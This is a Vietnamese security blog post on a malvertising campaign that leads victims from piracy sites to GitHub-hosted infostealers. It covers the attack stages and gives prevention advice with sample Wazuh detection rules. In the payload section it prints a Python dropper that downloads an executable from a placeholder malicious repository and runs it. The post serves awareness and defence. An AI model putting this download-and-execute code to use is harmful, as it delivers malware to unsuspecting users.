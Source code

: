 ```yaml
---
title: "Cảnh báo nguy hiểm: Mối đe dọa mạng từ Malvertising GitHub"
date: 2025-09-13T18:02:53.347+07:00
draft: false
tags: ["an ninh mạng", "malvertising", "GitHub", "phần mềm độc hại", "infostealer"]
categories: ["An ninh mạng"]
---
```


## Table of Contents
- [Mở đầu](#mở-đầu)
- [Nội dung chính](#nội-dung-chính)
- [Kết luận](#kết-luận)

---

### Mở đầu

![Hình ảnh minh họa chuỗi tấn công Malvertising GitHub](static/images/2025/2025-09-13T18:03:13.282+07:00.jpg)

Malvertising, hay quảng cáo độc hại, đã trở thành một trong những phương thức tấn công mạng phổ biến và tinh vi nhất hiện nay. Mới đây, một chiến dịch malvertising quy mô lớn đã bị phát hiện lợi dụng nền tảng GitHub để phân phối phần mềm đánh cắp thông tin (infostealer), gây ra mối đe dọa nghiêm trọng cho hàng triệu thiết bị trên toàn cầu [Nguồn: Microsoft Security Blog]. Bài báo cáo này sẽ đi sâu phân tích cơ chế hoạt động của chiến dịch tấn công này, lý do GitHub bị lợi dụng và đưa ra các khuyến nghị bảo mật nhằm giảm thiểu rủi ro.

Malvertising là việc sử dụng quảng cáo trực tuyến để phát tán phần mềm độc hại. Thay vì hiển thị quảng cáo hợp pháp, tội phạm mạng chèn mã độc vào các banner hoặc pop-up, chuyển hướng người dùng đến các trang web độc hại hoặc tự động tải xuống mã độc. GitHub, một nền tảng lưu trữ mã nguồn phổ biến, đã vô tình trở thành "bãi đáp" cho các phần mềm độc hại này do tính chất mở và đáng tin cậy của nó, gây khó khăn cho các hệ thống bảo mật truyền thống.

### Nội dung chính

#### Cơ chế tấn công Malvertising trên GitHub

Chiến dịch malvertising này hoạt động theo một chuỗi tấn công đa giai đoạn, tinh vi và phức tạp:

1.  **Giai đoạn Khởi nguồn (Initial Access):**
    *   Tấn công bắt đầu từ các trang web có nội dung không chính thống, đặc biệt là các trang xem phim lậu.
    *   Quảng cáo độc hại (malvertising) được nhúng vào các khung phim hoặc banner trên các trang này.
    *   Khi người dùng vô tình nhấp vào quảng cáo, họ sẽ bị chuyển hướng qua một loạt các trang trung gian [Nguồn: Blackswan Cybersecurity].

2.  **Chuyển hướng đến GitHub (Redirection to GitHub):**
    *   Sau nhiều bước chuyển hướng, nạn nhân cuối cùng sẽ được đưa đến một kho lưu trữ (repository) trên GitHub.
    *   Các kho lưu trữ này được tội phạm mạng tạo ra để lưu trữ các tệp độc hại, thường được ngụy trang dưới dạng các ứng dụng hợp pháp hoặc mã nguồn mở [Nguồn: DarkReading].

3.  **Phân phối Payload (Payload Delivery):**
    *   **Payload đầu tiên (First-stage Payload):** Tệp độc hại đầu tiên được tải xuống từ GitHub thường đóng vai trò là một "dropper" hoặc "downloader". Nó được thiết kế để tải về các phần mềm độc hại tiếp theo.
    *   **Ví dụ về code block của dropper:**
        
```python
        # downloader.py - Python script to download second-stage payload
        import requests
        import subprocess

        payload_url = "https://raw.githubusercontent.com/malicious_user/repo/main/second_stage.exe"
        local_filename = "second_stage.exe"

        try:
            response = requests.get(payload_url, stream=True)
            response.raise_for_status()
            with open(local_filename, 'wb') as f:
                for chunk in response.iter_content(chunk_size=8192):
                    f.write(chunk)
            print(f"Downloaded {local_filename}")
            subprocess.Popen([local_filename]) # Execute the downloaded payload
        except Exception as e:
            print(f"Error downloading or executing payload: {e}")
        ```

    *   **Payload thứ hai (Second-stage Payload):** Thực hiện thu thập thông tin hệ thống ban đầu, mã hóa dữ liệu nhạy cảm (ví dụ: bằng Base64) và gửi về máy chủ điều khiển (C2) của kẻ tấn công qua HTTP [Nguồn: Microsoft Security Blog].
    *   **Payload tiếp theo (Third-stage Payload):** Sau khi thông tin ban đầu được thu thập, các mã độc nguy hiểm hơn như Lumma Stealer hoặc Doenerium Stealer sẽ được triển khai. Các phần mềm này có khả năng đánh cắp thông tin đăng nhập, dữ liệu tài chính, ví điện tử và các thông tin nhạy cảm khác [Nguồn: SC Media].

#### Tại sao GitHub bị lạm dụng hiệu quả?

GitHub, với vai trò là nền tảng lưu trữ mã nguồn lớn nhất thế giới, trở thành mục tiêu hấp dẫn cho tội phạm mạng vì nhiều lý do:

*   **Đáng tin cậy và Phổ biến:** GitHub là một nền tảng uy tín và được sử dụng rộng rãi bởi các nhà phát triển và tổ chức. Nhiều công ty IT thường cho phép truy cập GitHub trong môi trường làm việc, khiến việc phát hiện lưu lượng truy cập độc hại trở nên khó khăn hơn. Kẻ tấn công lợi dụng chiến thuật "Living Off Trusted Sites" (LOTS) để ẩn mình [Nguồn: VietnamNet].
*   **Dễ dàng ngụy trang:** Các tệp độc hại có thể được lưu trữ dưới dạng mã nguồn, kịch bản (script) hoặc các công cụ hợp pháp, khiến việc phân biệt giữa mã nguồn tốt và xấu trở nên thách thức đối với các giải pháp bảo mật tự động [Nguồn: ESSVN].
*   **Thiếu giải pháp phát hiện triệt để:** Mặc dù GitHub có các cơ chế bảo mật, nhưng việc phát hiện và ngăn chặn triệt để các hành vi lạm dụng tinh vi như vậy vẫn còn là một thách thức lớn. Kẻ tấn công liên tục thay đổi phương thức để tránh bị phát hiện [Nguồn: An Toàn Thông Tin].

#### Hướng dẫn phòng tránh và bảo vệ

Để bảo vệ bản thân và tổ chức khỏi các mối đe dọa malvertising trên GitHub, cần áp dụng các biện pháp phòng ngừa sau:

1.  **Cẩn trọng với nguồn gốc truy cập:**
    *   Tránh truy cập các trang web không chính thống, đặc biệt là các trang web cung cấp nội dung "miễn phí" như phim lậu, phần mềm crack.
    *   Luôn kiểm tra URL và chứng chỉ bảo mật (HTTPS) của trang web trước khi tương tác.

2.  **Kiểm soát truy cập Internet:**
    *   Trong môi trường doanh nghiệp, cần thiết lập các chính sách kiểm soát truy cập Internet nghiêm ngặt.
    *   Giới hạn quyền truy cập vào các dịch vụ lưu trữ mã nguồn công cộng hoặc các repository không được xác minh.
    *   Sử dụng proxy hoặc tường lửa ứng dụng (WAF) để lọc và kiểm tra lưu lượng truy cập.

3.  **Tăng cường giám sát Endpoint và Network:**
    *   Triển khai các giải pháp EDR (Endpoint Detection and Response) và SIEM (Security Information and Event Management) để phát hiện hành vi bất thường.
    *   Giám sát các quy trình thực thi tệp lạ, đặc biệt là các tệp được tải xuống từ các domain GitHub.
    *   Thực hiện phân tích IoC (Indicators of Compromise) thường xuyên để phát hiện sớm các dấu hiệu tấn công.
    *   **Ví dụ cấu hình giám sát bằng Wazuh SIEM (Rule ví dụ):**
        
```yaml
        <group name="github_malware_detection,">
          <rule id="100001" level="12">
            <if_sid>60101</if_sid> <!-- Example: if a file download event occurs -->
            <field name="win.eventdata.targetFilename" type="pcre2">.*github\.com.*\.exe$</field>
            <description>Possible malware download from GitHub.</description>
            <mitre>
              <id>T1071.001</id>
              <id>T1566.001</id>
            </mitre>
          </rule>

          <rule id="100002" level="10">
            <if_sid>60101</if_sid>
            <field name="win.eventdata.processCommandline" type="pcre2">.*second_stage\.exe.*</field>
            <description>Execution of known second-stage payload from GitHub malvertising.</description>
            <mitre>
              <id>T1059.003</id>
            </mitre>
          </rule>
        </group>
        ```


4.  **Cập nhật phần mềm và giải pháp bảo mật:**
    *   Đảm bảo tất cả hệ điều hành, trình duyệt và phần mềm bảo mật (antivirus, firewall) luôn được cập nhật phiên bản mới nhất.
    *   Theo dõi các khuyến nghị và cảnh báo bảo mật từ các nhà cung cấp lớn như Microsoft, GitHub và các tổ chức an ninh mạng.

### Kết luận

Malvertising lợi dụng GitHub là một minh chứng cho sự phát triển không ngừng của các mối đe dọa mạng. Bằng cách tận dụng các nền tảng hợp pháp và đáng tin cậy, tội phạm mạng có thể dễ dàng ẩn mình và thực hiện các cuộc tấn công quy mô lớn. Việc hiểu rõ cơ chế tấn công, kết hợp với các biện pháp bảo mật chủ động và nâng cao nhận thức người dùng, là chìa khóa để bảo vệ cá nhân và tổ chức khỏi mối đe dọa tinh vi này. Các tổ chức cần đầu tư vào các giải pháp giám sát toàn diện và xây dựng quy trình ứng phó sự cố hiệu quả để đối phó kịp thời với các cuộc tấn công trong tương lai.